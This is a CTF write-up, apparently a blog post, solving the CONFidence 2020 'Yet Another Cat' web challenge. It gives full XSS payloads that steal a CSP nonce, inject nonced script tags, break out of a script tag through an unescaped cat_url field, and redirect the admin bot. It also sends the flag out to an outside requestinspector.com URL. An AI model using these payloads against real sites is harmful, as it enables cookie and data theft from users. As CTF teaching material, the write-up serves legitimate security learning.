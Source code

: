 ```yaml
---
layout: post
title: "CONFidenceCTF Yet Another Cat solution"
date: 2020-09-06
---
```


The challenge' info card gives us a link to the website.

#### Info card:

![infocard](/assets/posts/Confidence-yac/images/p1.PNG)


#### Main page:


![mainpage](/assets/posts/Confidence-yac/images/p2.PNG)


We can create a note and report it to the admin.
There is a pseudo flag on our main page which is taken from `/flag?var=flag`.

#### /flag?var=flag :


![flagoutput](/assets/posts/Confidence-yac/images/p3.PNG)


`/flag?var=flag` returns a valid javascript line so we shouldn't use XHR (we also can't use XHR because of the CSP).
We can just use the `/flag?var=flag` as a script source and access the flag through `window.flag`.
The technique uses in `/flag` is simillar to JSONP, you can read about it here: [jsonp](https://www.w3schools.com/js/js_json_jsonp.asp).

Let's take a look at the CSP on this website :

#### CSP:


![CSP](/assets/posts/Confidence-yac/images/p4.PNG)


Due to the Content-Security-Policy header, only script tag with valid nonce or script from https://ww.google.com/recaptcha and https://www.gstatic.com/recaptcha/ will be loaded.

For achieving XSS we should inject our script to an existing script tag or find a way to steal the nonce value.

#### Note creation screen:


![notecreate](/assets/posts/Confidence-yac/images/p5.PNG)


The content of the note is well escaped with HTML entities encoding so we can't inject HTML.

After creating a note there is a theme choosing functionality.
The theme name reflects within a script tag, so we can inject arbitrary javascript to this tag: 

#### The theme name within the source code:


![themeFirst](/assets/posts/Confidence-yac/images/p6.PNG)


#### Javascript injection after the theme:


![themeinjection](/assets/posts/Confidence-yac/images/p7.PNG)


We can't just fetch the flag because of the Content-Security-Policy (`default-src 'none'`) so we should use our XSS to steal the nonce value, create a script tag with the stolen nonce which its source is `/flag?var=flag`.
After creating this script tag, window.flag will contain the value of the flag.
I couldn't use any quotation marks because they were encoded as HTML entities so I used the location.hash for creating some strings.
We can steal the nonce value with :

`document.scripts[0].nonce`

Here is my payload to write into the DOM two script tags, one for creating the `window.flag` variable and the second for alerting its value, both contain the stolen `nonce` attribute:


`http://yacc.zajebistyc.tf/note/a6f7a8f5-f0b4-4fac-85cc-c02d5a41c93e?theme=blackTheme;document.write(decodeURIComponent(location.hash.slice(1,19)%2bdocument
.scripts[0].nonce%2blocation.hash.slice(25,87)%2blocation.hash.slice(1,19)%2bdocument
.scripts[0].nonce%2blocation.hash.slice(87)));//#%3Cscript%20nonce=script%20src=http://yacc.zajebistyc.tf/flag?var=flag%3E%3C/script%3E%3Ealert(window.flag)%3C/script%3E`


#### Result:


![alertFlag](/assets/posts/Confidence-yac/images/p8.PNG)


#### DOM after the XSS:


![domafterXSS](/assets/posts/Confidence-yac/images/p9.PNG)


Instead of making an alert with the flag value, we can redirect the victim to our `requestinspector` URL with the following javascript code:

`location = "https://requestinspector.com/inspect/<your requestinspectorID>?flag="+window.flag;`

The reporting functionality doesn't allow us to add the query parameter `theme`, so to achieve the XSS attack, we should find a way to redirect the admin to another note, with the theme parameter containing our payload.

The note creation functionality allows us to pick a cat picture URL which is reflected in a script tag and stored on the page. 

#### Note creation request:


![note_req](/assets/posts/Confidence-yac/images/p10.PNG)


#### Cat image path reflection:


![catPath](/assets/posts/Confidence-yac/images/p11.PNG)


If we will set the cat_url to `</script>`, the browser will treat it as the end of the current script tag because the triangular brackets aren't escaped.
After closing the script tag we can inject an arbitrary HTML tag.

#### HTML injection request :


![htmlinjection_req](/assets/posts/Confidence-yac/images/p12.PNG)


#### HTML injection result:


![htmlinjection_result](/assets/posts/Confidence-yac/images/p13.PNG)



We can't inject script tags because the CSP nonce, but we can inject a meta tag which will redirect to our reflected XSS page with the `theme` parameter.

The meta tag for making redirection is :

`<meta http-equiv="Refresh" content="0;url='<url here>'"/>`


#### Last payload :


```
cat_url=</script><meta http-equiv="Refresh" content="0; url='http%3A%2F%2Fyacc.zajebistyc.tf%2Fnote%2Fa8286105-8bf3-4de8-bc65-f195a9d11aaf%3Ftheme%3DblackTheme%3Bdocument.write(decodeURIComponent(location.hash.slice(1%2C19)%252bdocument.scripts%5B0%5D
.nonce%252blocation.hash.slice(25%2C87)%252blocation.hash.slice(1%2C19)%252bdocument.scripts%5B0%5D.nonce%252blocation.hash.slice(87)))
%3B%2F%2F%23%253Cscript%2520nonce%3Dscript%2520src%3Dhttp%3A%2F%2Fyacc.zajebistyc.tf%2Fflag%3Fvar%3Dflag%253E%253C%2Fscript%253E%253Elocation
.href%3D'https%3A%2F%2Frequestinspector.com%2Finspect%2F01ehfz06c7pt6dbcwcy51n7trb%3Fflag%3D'%252bencodeURIComponent(window.flag)%3B%253C%2Fscript%253E'" />
```


#### Request:


![lastpayload](/assets/posts/Confidence-yac/images/p14.PNG)


Sharing the new note will cause the admin to send us the flag:

#### Share:


![share](/assets/posts/Confidence-yac/images/p15.PNG)


#### Flag:


![flag](/assets/posts/Confidence-yac/images/p16.PNG)

